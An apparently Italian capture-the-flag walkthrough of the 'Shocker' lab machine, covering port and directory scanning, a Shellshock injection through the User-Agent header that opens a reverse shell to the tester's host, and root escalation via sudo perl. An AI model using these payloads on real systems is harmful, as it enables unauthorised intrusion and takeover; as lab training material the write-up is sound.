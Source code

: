 # Shocker

## Reconnaissance

Per prima cosa eseguo una scansione iniziale con nmap per conoscere le porte aperte e i servizi che girano su di esse.

```text
sudo nmap -sC -sV -O -oA /usr/share/nmap/initial 10.10.10.17
```

* **-sC**: scipt nmap di default
* **-sV**: per rilevare la versione dei servizi
* **-O**: per rilevare il SO
* **-oA**: per stampare tutti i formati e salvarli nel file _nmap/initial_

Le porte aperte sono le seguenti:

* **Porta 2222:** OpenSSH 7.2p2
* **Porta 80** Apache httpd 2.4.18

```text
Nmap scan report for 10.10.10.56
Host is up (0.077s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=9/18%OT=80%CT=1%CU=40237%PV=Y%DS=2%DC=I%G=Y%TM=65085D9
OS:E%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M53CST11NW6%O2=M53CST11NW6%O3=M53CNNT11NW6%O4=M53CST11NW6%O5=M53CST1
OS:1NW6%O6=M53CST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN
OS:(R=Y%DF=Y%T=40%W=7210%O=M53CNNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

In questa fase cerco di capire se qualcuno di questi servizi è configurato in modo errato o se presenta vulnerabilità note.

### 1) Porta 2222 OpenSSH 7.2p2

La vulnerabilità trovata:
  * OpenSSH 2.3 < 7.7 - Username Enumeration

Questa vulnerabilità ci permette di fare username enumeration [CVE-2018-15473](https://github.com/Sait-Nuri/CVE-2018-15473).

Non mi interessa utilizzare questa vulnerabilità per il momento, quindi proseguo.

### 2) Porta 80 Apache 2.4.18

Non trovo nulla di interessante.

### 3) Directory enumeration

Utilizzo il comando dirb, dal quale ottengo il seguente risultato:

```text
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Sep 18 15:36:07 2023
URL_BASE: http://10.10.10.56/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.56/ ----
+ http://10.10.10.56/cgi-bin/ (CODE:403|SIZE:294)                                            
+ http://10.10.10.56/index.html (CODE:200|SIZE:137)                                          
+ http://10.10.10.56/server-status (CODE:403|SIZE:299)                                       

-----------------
END_TIME: Mon Sep 18 15:42:00 2023
DOWNLOADED: 4612 - FOUND: 3
```

Provo con il comando gobuster utilizzando la wordlist _directory-list-2.3-medium.txt_, cercando file con estensione _sh_ e _cgi_.

```text
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.56/cgi-bin/ -x sh,cgi
```

Il risutlato è il seguente

```text
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/cgi-bin/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              cgi,sh
[+] Timeout:                 10s
===============================================================
2023/09/18 16:13:31 Starting gobuster in directory enumeration mode
===============================================================
/user.sh              (Status: 200) [Size: 119]
```

Scarico lo script user.sh:

<p align="center">
  <img src="/Immagini/Linux-Box/Shocker/shocker-1.png" />
</p>

Facendo una rapida ricerca, basandomi sul nome della macchina, mi imbatto nella vulnerabilità shellshock. Per questo motivo utilizzo uno script nmap per verificare che il sito sia vulnerabile ad essa:

```text
nmap 10.10.10.56 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/user.sh
```

Il risultato è il seguente:


```text
Nmap scan report for 10.10.10.56
Host is up (0.080s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-shellshock:
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|_      http://seclists.org/oss-sec/2014/q3/685
```

**Quindi è vulnerabile!**

### 4) Vulnerabilità Shellshock

Per sfruttare la vulnerabilità utilizzo la guida presente in questo [sito](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi).

Avvio burp e intercetto la richiesta _/cgi-bin/user.sh_:

<p align="center">
  <img src="/Immagini/Linux-Box/Shocker/shocker-2.png" />
</p>

Dopodichè modifico il campo _User Agent_ nel seguente modo:

```text
() { ignored;};/bin/bash -i >& /dev/tcp/10.10.14.13/4444/ 0>&1
```
Prima di inviare la richiesta, avvio un listener sulla porta 4444:

```text
nc -nlvp 4444
```

<p align="center">
  <img src="/Immagini/Linux-Box/Shocker/shocker-5.png" width="180" height="290"/>
</p>

**SBAM! Sono dentro.**

<p align="center">
  <img src="/Immagini/Linux-Box/Shocker/shocker-3.png" />
</p>

## Privilege Escalation

Per prima cosa controllo i permessi dell'utente:

<p align="center">
  <img src="/Immagini/Linux-Box/Shocker/shocker-4.png" />
</p>

Quindi posso lanciare un comando perl come root.

Facendo una ricerca su questo [sito](https://gtfobins.github.io/gtfobins/perl/) capisco che posso elevare i miei privilegi attraverso questo comando:

```text
sudo perl -e 'exec "/bin/sh";'
```

**Eseguendolo ottengo il contenuto di root.txt**
